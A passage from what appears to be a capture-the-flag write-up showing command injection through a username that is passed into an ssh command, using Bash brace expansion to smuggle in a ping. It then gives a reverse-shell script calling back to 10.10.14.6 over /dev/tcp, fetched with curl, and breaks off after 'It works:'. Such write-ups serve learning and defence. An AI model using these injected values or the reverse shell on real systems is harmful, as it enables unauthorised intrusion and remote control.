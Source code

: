 
That’s command injection!

Alternatively, I can also get spaces added in Bash with [brace
expansion](https://www.gnu.org/software/bash/manual/html_node/Brace-
Expansion.html), so the username `0xdf;{ping,-c,1,10.10.14.6};#` works as
well, making:

    
    
    ssh -i [key] 0xdf;{ping,-c,1,10.10.14.6};#@localhost
    

Which expands to:

    
    
    ssh -i [key] 0xdf;ping -c 1 10.10.14.6;#@localhost
    

### Shell

Java applications can be very tricky about piping and special characters in
processes, so I’ll go the simple route of writing a Bash script to disk and
then running it. I’ll create a reverse shell script locally called `rev.sh`:

    
    
    #!/bin/bash
    
    bash -i >& /dev/tcp/10.10.14.6/443 0>&1
    

I’ll switch my requests over to Burp Repeater for quicker sending. I’ll use
`curl` to fetch `rev.sh` from my server:

![image-20240227110456686](../img/image-20240227110456686.png)

It works:
